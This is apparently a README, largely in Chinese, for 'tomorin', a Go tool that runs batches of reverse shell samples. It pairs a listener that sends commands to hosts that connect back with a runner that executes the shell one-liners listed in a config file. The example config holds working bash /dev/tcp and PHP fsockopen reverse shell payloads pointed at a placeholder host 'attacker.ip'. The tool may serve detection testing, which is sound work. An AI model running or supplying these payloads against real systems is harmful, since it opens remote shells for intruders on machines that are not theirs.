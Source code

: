 # tomorin 批量执行反弹 Shell 样本

## Build

```bash
go build -o ./bin/tomorin
```

### attacker

```
ubuntu@VM-0-5-ubuntu:~/source/tomorin$ ./bin/tomorin serve -h
Run reverse shell server

Usage:
  tomorin serve [flags]

Flags:
  -a, --address strings   Addresses to listen, each of which has the format of [PROTO:[IP:]]PORT. If PROTO is not specified, then "tcp" will be used. If IP is not specified, then "udp" will be used.
      --cmd string        Command to be executed once a remove host is connected (default "whoami && sleep 2")
      --cmd-exit          Whether to append an "exit" to the end of the provided cmd. This should always be true if you want a graceful exit on the remote shell. (default true)
  -h, --help              help for serve
      --tcp-timeout int   Timeout for each connection. Applied to TCP only (default 10)
```

监听 TCP 29007 和 UDP 29008 端口。当victim连接上端口的时候，发送指定的cmd然后退出。

```bash
./bin/tomorin serve -a tcp:29007 -a udp:29008
```

### victim

```
ubuntu@VM-0-5-ubuntu:~/source/tomorin$ ./bin/tomorin run -h
Run reverse shell samples from current host

Usage:
  tomorin run [flags]

Flags:
  -c, --config string   Path to the config file (default "config.yml")
  -h, --help            help for run
      --timeout int     Timeout of each sample (default 10)
      --wait int        Timeout until the next sample (default 7)
```

编写 `config.yml`，把反弹Shell样本写入 `samples` 字段，把依赖项写入 `depends` 字段，比如

```yaml
depends:
- php
samples:
- name: 001
  script: bash -i >& /dev/tcp/attacker.ip/4242 0>&1
- name: 002
  script: php -r '$sock=fsockopen("attacker.ip",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

确认所有依赖都无误之后，执行所有反弹Shell样本

```bash
./bin/tomorin run -c config.yml
```

## TODO

- [ x ] Reverse shell server
    - [ x ] TCP
    - [ x ] UDP
